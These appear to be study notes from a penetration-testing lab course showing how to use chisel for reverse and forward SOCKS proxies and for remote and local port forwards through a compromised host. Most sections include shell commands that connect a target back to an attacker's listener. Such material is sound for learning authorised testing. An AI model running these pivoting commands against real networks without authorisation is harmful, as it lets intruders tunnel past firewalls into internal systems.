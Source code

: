 ```yaml
---
category: Uncategorized
tags: []
---
```

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.  

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:

![[Pasted image 20220116095403.png]]

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
```bash - kali
scp -i KEY chisel $USER@$TARGET:/tmp/chisel-USERNAME
```

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.


__**Reverse SOCKS Proxy:**_  
_Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
```bash - kali
./chisel server -p LISTEN_PORT --reverse &  
```

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
```bash - target
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

![[Pasted image 20220116095519.png]]

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.  

__**Forward SOCKS Proxy:**_  
_Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
```bash - target
./chisel server -p LISTEN_PORT --socks5
```  

On our own attacking box we would then use:  
```bash - kali
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.  

**Proxychains Reminder:**  
When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  

```bash - kali
[ProxyList]  
# add proxy here ...  
# meanwhile  
# defaults set to "tor"  
socks5  127.0.0.1 1080  
```

**_Note:_** _The above configuration is for a reverse SOCKS proxy -- as mentioned previously, the proxy opens on port 1080 rather than the specified listening port (1337). If you use proxychains with a forward proxy then the port should be set to whichever port you opened (1337 in the above example)._

Now that we've seen how to use chisel to create a SOCKS proxy, let's take a look at using it to create a port forward with chisel.

_**Remote Port Forward:**_A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
```bash - target
./chisel server -p LISTEN_PORT --reverse &
```

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
```bash - target
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```  

Connecting back to our attacking machine, functioning as a chisel server started with:  
```bash - target
./chisel server -p 1337 --reverse &
```  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

__**Local Port Forward:**_  
_As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
```bash - target
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```
